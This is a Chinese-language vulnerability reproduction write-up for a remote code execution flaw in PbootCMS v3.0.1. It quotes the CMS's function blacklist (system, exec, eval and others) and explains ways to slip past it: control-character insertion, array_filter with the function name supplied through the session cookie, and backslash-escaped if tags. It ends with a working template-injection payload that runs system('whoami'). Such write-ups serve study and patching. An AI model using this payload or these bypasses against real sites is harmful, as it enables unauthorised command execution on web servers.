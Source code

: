 PbootCMS v3.0.1 远程代码执行漏洞
================================

一、漏洞简介
------------

二、漏洞影响
------------

PbootCMS v3.0.1

三、复现过程
------------

### 漏洞分析

依然是先查看`apps\home\controller\ParserController.php中的parserIfLabel`方法的两个if标签的过滤项

    if (preg_match_all('/([\w]+)([\/\*\<\>\%\w\s\\\\]+)?\(/i', $matches[1][$i], $matches2)) {
                        foreach ($matches2[1] as $value) {
                            if (function_exists($value) && ! in_array($value, $white_fun)) {
                                $danger = true;
                                break;
                            }
                        }
                    }
    if (preg_match('/(\$_GET\[)|(\$_POST\[)|(\$_REQUEST\[)|(\$_COOKIE\[)|(\$_SESSION\[)|(file_put_contents)|(file_get_contents)|(fwrite)|(phpinfo)|(base64)|(`)|(shell_exec)|(eval)|(assert)|(system)|(exec)|(passthru)|(pcntl_exec)|(popen)|(proc_open)|(print_r)|(print)|(urldecode)|(chr)|(include)|(request)|(__FILE__)|(__DIR__)|(copy)|(call_user_)|(preg_replace)|(array_map)|(array_reverse)|(getallheaders)|(get_headers)|(decode_string)|(htmlspecialchars)/i', $matches[1][$i]))

关于第一处的判断，我们依然可以使用在函数名和括号之间插入控制字符的方法来绕过该处校验，对于第二处，可以看到在黑名单中相较于上个分析版本（2.0.9）添加了getallheaders的黑名单判断，于是该处我们需要寻找新的方法来实现代码执行的目的，这让我想到了array\_filter函数

![1.png](./.resource/PbootCMSv3.0.1远程代码执行漏洞/media/rId25.png)

通过该函数我们可以实现执行php代码，例如array\_filter(\[\'whoami\'\],\'system\');

那么接下来我们需要思考如何绕过黑名单中对system的检测，在这里我们依然可以将system放到header头中，这里可以使用session\_id(session\_start())的方法来取到session的值，我们可以将session的值置为system，就可以成功的调用system函数来执行命令了，通过上面的思路写出利用payload使用的时候却发生了如下问题

![2.png](./.resource/PbootCMSv3.0.1远程代码执行漏洞/media/rId26.png)

该处的冒号被替换成了`@`符号，通过查看github更新记录可以发现如下代码段

![3.png](./.resource/PbootCMSv3.0.1远程代码执行漏洞/media/rId27.png)

该处使用了正则来替换我们输入的if标签，为了绕过该处正则的替换我们可以使用反斜杠来进行绕过，例如{pboot:if}{/pboot:if}，该处的反斜杠会被写入数据库，而在程序调用该段数据并渲染到前台的模板时会调用到stripcslashes函数，进而删除反斜杠，代码位于core\\function\\handle.php中，如图

![4.png](./.resource/PbootCMSv3.0.1远程代码执行漏洞/media/rId28.png)

### 漏洞复现

通过上面的分析，我们易得如下payload

    {pboot\:if(var_dump<0x01>(array_filter<0x01>(['whoami'],session_id<0x01>(session_start<0x01>()))))}bbbbb{/pboot\:if}

来到后台站点信息处

![5.png](./.resource/PbootCMSv3.0.1远程代码执行漏洞/media/rId30.png)

插入上述poc并保存，然后来到前台首页，访问前台首页抓取数据包，将cookie中session的配置项改为system,如图

![6.png](./.resource/PbootCMSv3.0.1远程代码执行漏洞/media/rId31.png)

可以看到成功执行了`system("whoami");`

参考链接
--------

> https://xz.aliyun.com/t/8321
